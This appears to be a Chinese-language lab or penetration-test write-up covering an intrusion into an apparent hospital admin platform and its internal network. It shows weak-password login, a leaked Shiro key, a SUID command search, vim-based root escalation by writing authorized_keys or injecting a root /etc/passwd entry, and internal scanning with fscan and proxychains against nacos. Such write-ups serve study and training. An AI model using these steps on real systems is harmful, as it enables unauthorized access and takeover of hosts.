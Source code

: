 nmap

![](attachments/Pasted%20image%2020240802145752.png)

访问8080端口服务

![](attachments/Pasted%20image%2020240802145947.png)

弱口令 admin:admin123

明显的shiro特征，但是爆破密钥无果

![](attachments/Pasted%20image%2020240802150516.png)

又用fscan扫了一遍

![](attachments/Pasted%20image%2020240802150757.png)

`actuator`泄露

拿下shirokey

![](attachments/Pasted%20image%2020240802151910.png)

```
algMode = CBC, key = GAYysgMQhG7/CzIJlVpR2g==, algName = AES
```

工具直接执行命令

![](attachments/Pasted%20image%2020240802152045.png)

直接弹shell

`find / -user root -perm -4000 -print 2>/dev/null`

![](attachments/Pasted%20image%2020240802154503.png)

vim.basic 提权

直接利用vim.basic 向root中写自己的公钥然后ssh登录，也可以改写passwd文件增加已知密码的用户

`vim.basic /root/.ssh/authorized_keys` 
或者写/etc/passwd

```
$1$asd$sTMDZlRI6L.jJEw2I.3x8.:0:0:root:/toor:/bin/bash
密码 123
用户 toor
```

![](attachments/Pasted%20image%2020240803130627.png)

利用proxychain扫描
proxychains4 -q nxc smb 172.30.12.5/24


`scp "D:\web\scan\fscan\fscan" root@39.98.125.109:/root`

```

上传venom，配置socks代理并通过proxyfilter代理到本地
```

访问http://172.30.12.6:8848/nacos ，尝试默认密码 nacos:nacos


fscan扫描内网

```SH
root@web01:~# chmod 777 fscan
root@web01:~# ./fscan -h 172.30.12.5/24 -hn 172.30.12.5

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.30.12.236   is alive
(icmp) Target 172.30.12.6     is alive
[*] Icmp alive hosts len is: 2
172.30.12.236:8009 open
172.30.12.6:8848 open
172.30.12.236:8080 open
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.6:445 open
172.30.12.236:22 open
[*] alive ports len is: 7
start vulscan
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02
[*] NetInfo
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass



